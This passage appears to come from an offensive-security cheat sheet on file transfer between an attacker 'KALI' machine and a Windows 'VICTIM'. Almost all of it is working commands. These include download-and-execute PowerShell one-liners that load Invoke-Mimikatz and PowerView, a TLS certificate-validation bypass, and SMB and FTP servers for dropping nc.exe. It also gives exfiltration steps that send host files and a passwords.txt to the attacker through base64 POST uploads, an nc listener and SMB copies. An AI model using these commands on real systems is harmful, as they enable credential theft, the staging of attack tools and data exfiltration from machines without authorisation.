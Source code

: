 - VICTIM: `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`

## PowerShell Invoke-WebRequest (PowerShell 3.0 and higher)
- VICTIM: `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`

You should also use these arguments:
- -UseBasicParsing
- [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

## SMB
- KALI: `sudo impacket-smbserver share -smb2support /tmp/`
- VICTIM: `copy \\192.168.1.13\share\nc.exe`

If you get an error, use an account name and password:
- KALI: `sudo impacket-smbserver share -smb2support /tmp/smbshare -user gajos -password gajos`
- VICTIM: `net use g: \\192.168.1.13\share /user:test test`

## FTP
- KALI: `sudo pip3 install pyftpdlib`
- KALI: `sudo python3 -m pyftpdlib --port 21`
- VICTIM: `(New-Object Net.WebClient).DownloadFile('ftp://192.168.1.13/file', 'file')`

# File Transfer From Victim

## PowerShell - Base64
- VICTIM: `[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))`

## PowerShell - POST Upload
- KALI: `pip3 install uploadserver`
- KALI: `python3 -m uploadserver`
- VICTIM: `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`
- VICTIM: `Invoke-FileUpload -Uri http://192.168.1.13:8000/upload -File C:\Windows\System32\drivers\etc\hosts`

## PowerShell - Base64 POST Upload
- KALI: `nc -lvnp 8000`
- VICTIM: `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`
- VICTIM: `Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64`

## SMB
- KALI: `sudo impacket-smbserver share -smb2support /tmp/`
- VICTIM: `copy C:\Users\Rem\Desktop\passwords.txt \192.168.1.13\share\`
